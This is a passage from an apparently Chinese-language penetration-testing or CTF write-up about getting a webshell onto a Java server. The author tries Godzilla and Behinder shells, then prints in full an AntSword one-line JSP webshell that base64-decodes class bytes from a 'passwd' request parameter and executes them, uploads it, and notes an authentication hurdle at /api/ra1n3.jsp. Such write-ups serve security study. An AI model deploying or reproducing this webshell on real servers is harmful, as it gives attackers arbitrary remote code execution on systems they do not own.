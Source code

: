 空页面，说明jsp木马被正常解析

哥斯拉连接

失败？？

然后我换了冰蝎的马还是失败，不知道是

换了蚁剑的一句话木马

```

<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

重启环境然后上传



蚁剑连接

然后我发现，前面没问题，是因为访问/api/ra1n3.jsp需要身份验证

即要修改连接配置
